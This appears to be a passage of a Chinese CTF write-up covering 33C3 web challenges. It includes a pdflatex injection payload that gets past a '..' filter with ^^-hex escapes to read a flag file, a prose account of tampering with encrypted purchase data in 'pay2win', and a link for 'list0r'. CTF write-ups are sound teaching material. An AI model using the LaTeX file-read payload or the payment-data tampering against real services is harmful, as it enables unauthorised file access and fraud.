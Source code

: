 ## 读文件方式 ##

除了编写md格式执行命令以外，事实上还有更多办法来读取文件获取flag，也许你觉得文件名未知，我们没办法来读取flag，但也许你忘记了`../../flag`这里还有一个flag。

核心问题在于如何绕过..的过滤

在pdflatex语法中，可以用`^^2e^^2e^^2f^^2e^^2e^^2f^^66^^6c^^61^^67 `来代替``../../flag``，那么脚本如下

```
payload = """
\documentclass{article}
\\begin{document}
Hello world, this is \LaTeX
\\newwrite\outfile
\openout\outfile=out.log
\\newread\\file
\openin\\file=^^2e^^2e^^2f^^2e^^2e^^2f^^66^^6c^^61^^67
\\read\\file to\\fileline
\write\outfile{\\fileline}
\closein\\file
\closeout\outfile
\end{document}
\q
"""
```

编译读取既可

# pay2win #

```
pay2win – Web
Do you have enough money to buy the flag?
```

整个题目做起来很难受，做了感觉非常像是强行出题...

首先进去我们发现能够购买cheap和flag两个，需要输入一个合理的信用卡号，网上随便找一个信用卡就可以购买cheap，但购买flag时候，就会显示额度不够，然后，这时候理所当然的以为要找个额度大于20万的信用卡号，于是研究了一夜的信用卡种类...

但仔细想可以想到，主办方应该是没有办法判断信用卡的额度的，所以重新审视题目，我们发现如果购买成功的话，data的数据块会发生变化

![image_1b5a4fdv5nso1euk4171vh61sk69.png-352.1kB][1]

我们发现按照刚好可以8bit一分，然后购买成功后，中间的部分会发生变化

反复修改可以找到所谓储存文件名的部分，修改那部分getflag。


# list0r #

ctftime上有2篇文章还是蛮不错的。

[https://dollberg.xyz/ctf/2016/12/29/33C3-CTF-list0r/](https://dollberg.xyz/ctf/2016/12/29/33C3-CTF-list0r/)


  [1]: http://static.zybuluo.com/LoRexxar/xcr4ueiusbgkotwnkacer1ye/image_1b5a4fdv5nso1euk4171vh61sk69.png
  [2]: http://static.zybuluo.com/LoRexxar/dlkrbrj0231150ibg9x75dkf/image_1b5f9kuqrqaqq4pdolislj9tm.png
  [3]: http://static.zybuluo.com/LoRexxar/roqgxrzbm5g5e8ty0z6ei8vv/image_1b5f9mhh41hvf13b0jgq19sv14tc13.png
  [4]: http://static.zybuluo.com/LoRexxar/wms809g28pe6nmr4n4fgfw8d/image_1b5fa0r9f1tl385i1qc3nj6o2d1g.png
  [5]: http://static.zybuluo.com/LoRexxar/cd10qwc9x8sbnttjsp0zumge/image_1b5fb5vmq16toguhf5c1t1m1g121t.png